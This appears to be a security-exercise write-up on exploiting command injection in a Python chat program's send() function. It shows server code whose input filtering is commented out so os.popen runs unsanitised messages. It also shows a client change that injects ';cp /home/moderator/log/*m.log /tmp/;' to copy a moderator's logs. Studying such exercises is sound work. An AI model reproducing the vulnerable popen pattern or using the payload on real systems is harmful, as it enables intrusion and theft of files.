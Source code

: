 ## Server Code Setup
In order to perform command injection, we first have to make sure that the `communication.py` in the server code DOES NOT filter out the command injection primitives that we pass to server.py - make sure the `def send(msg)` function has the following code in it.
```python
def send(msg, pipe):
#    if readVulnerability_2 != 0:
        # Hopefully don't need this filtering now that the vulnerability below is fixed...
#        msg = msg.replace("'", '').replace(';', '').replace('"', '').replace('\n', '').replace('(', '[').replace(')', ']').replace('>', '').replace('<', '').replace(':', '')

    try:
        sender = pipe.split('to')[0]
        # This commented code is a vulnerability similar to readVulnerability
        if len(msg)!=0:
            msg='(echo :%s:%s > %s%sD/%s) 2> /dev/null &'%(sender,msg,pipeRoot,pipe,pipe)
            o=os.popen(msg)

    except Exception, p:
        pass
    #log('send error:%s'%p,1,0,1)
```
## Client Code Setup
In order to make it easier to inject commands into the code, we modify the `def send()` code in `communication.py` to the following:
```python
def send(msg, pipe):
    # if readVulnerability_2 != 0:
        # Hopefully don't need this filtering now that the vulnerability below is fixed...
        #msg = msg.replace("'", '').replace(';', '').replace('"', '').replace('\n', '').replace('(', '[').replace(')', ']').replace('>', '').replace('<', '').replace(':', '')
    command_injection = False
    if msg.strip('\n').strip() == 'execute_order_66':
        msg = ';cp /home/moderator/log/*m.log /tmp/;'
        command_injection = True

    try:
        sender = pipe.split('to')[0]

        if readVulnerability_2 == 0 or command_injection:
            f = open(pipeRoot + pipe + 'D/' + pipe, 'w')
            f.write(':' + sender + ':' + msg + '\n')
            f.flush()
            f.close()
        else:
            # This commented code is a vulnerability similar to readVulnerability
            if len(msg)!=0:
                msg='(echo :%s:%s > %s%sD/%s) 2> /dev/null &'%(sender,msg,pipeRoot,pipe,pipe)
                o=os.popen(msg)

    except Exception, p:
        pass
    #log('send error:%s'%p,1,0,1)
```
Then we had to write the injected command directly into the pipe (w/o using echo otherwise the command would be injected into our current context and not on the moderator end – for that it was easier to use the code snippet under the `if readVulnerability_2 == 0` statement to directly flush the command)
